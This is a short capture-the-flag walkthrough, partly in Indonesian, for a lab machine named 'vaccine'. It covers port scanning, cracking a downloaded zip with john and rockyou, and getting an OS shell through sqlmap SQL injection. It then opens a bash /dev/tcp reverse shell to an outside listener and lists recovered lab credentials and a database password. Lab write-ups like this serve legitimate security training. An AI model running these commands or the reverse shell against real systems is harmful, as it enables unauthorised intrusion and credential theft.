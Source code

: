 # vaccine

nmap -A -T4 -p- -oN nmap 10.10.10.46

port ftp

login use as password mc@F1l3ZilL4 <- from before challange

in ftp use get backup.zip command

pake john dengan command zip2john backup.zip > backup.hash

john backup.hash --wordlist=/usr/share/wordlists/rockyou.txt

password buat zip : 741852963

dapet credential 
```
admin
qwerty789
```

dapat shell dengan command `sqlmap -u http://10.10.10.46/dashboard.php?search=tes --cookie 'PHPSESSID=073ggj0s9c3154k9og0l6p2osg' --os-shell`

ketika sudah dapat shell dari sqlmap kita pake reverse shell dari bash yaitu `bash -c 'bash -i >& /dev/tcp/10.10.14.168/4444 0>&1'`

get new password for db `host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!`

